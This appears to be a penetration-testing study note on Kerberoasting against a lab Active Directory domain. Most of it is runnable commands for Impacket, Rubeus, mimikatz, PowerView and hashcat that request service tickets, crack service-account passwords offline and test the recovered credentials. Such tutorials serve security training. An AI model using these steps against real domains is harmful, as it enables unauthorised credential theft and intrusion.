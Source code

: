 # Kerberoasting

When we send TGS-REQ to a KDC, it does not check if we have access to the service and provide us a TGS encrypted with the service account password hash.

A service account is an account that has at least one SPN attribute set.

**Kerberoasting technique = getting TGS from all accounts with SPN and crack it offline the recover password**

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline.

0\. Prerequisites :

* account's cleartext password (or NTLM hash) AND
* shell in the context of a domain user account OR
* SYSTEM level access on a domain-joined host

## From Linux

1. Listing all accounts with SPN

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

2. Request all TGS of SPN accounts

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request -outputfile all_tgs 
```

3. Request TGS of specific account

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

4. Saving TGS in output format

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

5. Crack TGS offline

```
sudo hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force


$krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/sqldev*$81...:database!
```

6. Testing Authentication against a Domain Controller&#x20;

```
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

## From Windows

### 1st method using Rubeus

From a domain-joined machine :

```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Crack it offline :&#x20;

```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### 2nd method using mimikatz

1. Enumerating SPNs

```
setspn.exe : setspn.exe -Q /
```

2. Targeting a Single User

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

3. Retrieving all tickets

```
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

4. Extracting ticktes from memory

```
mimikatz # base64 /out:true
mimikatz # kerberos::list /export  
```

5. Crack it offline

```
echo "<base64 blob>" |  tr -d \\n 
cat encoded_file | base64 -d > sqldev.kirbi
python2.7 kirbi2john.py sqldev.kirbi
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

Cracking the Hash with Hashcat
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
$krb5tgs$23$*sqldev.kirbi*$81314...057feeab:database!
```

### 3rd method using Powerview

1. Using PowerView to Extract TGS Tickets&#x20;

```
Import-Module .\PowerView.ps1 
Get-DomainUser * -spn | select samaccountname
```

2. Using PowerView to Target a Specific User&#x20;

```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

3. Exporting All Tickets to a CSV File&#x20;

```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

4. Viewing the Contents of the .CSV File&#x20;

```
cat .\ilfreight_tgs.csv
```

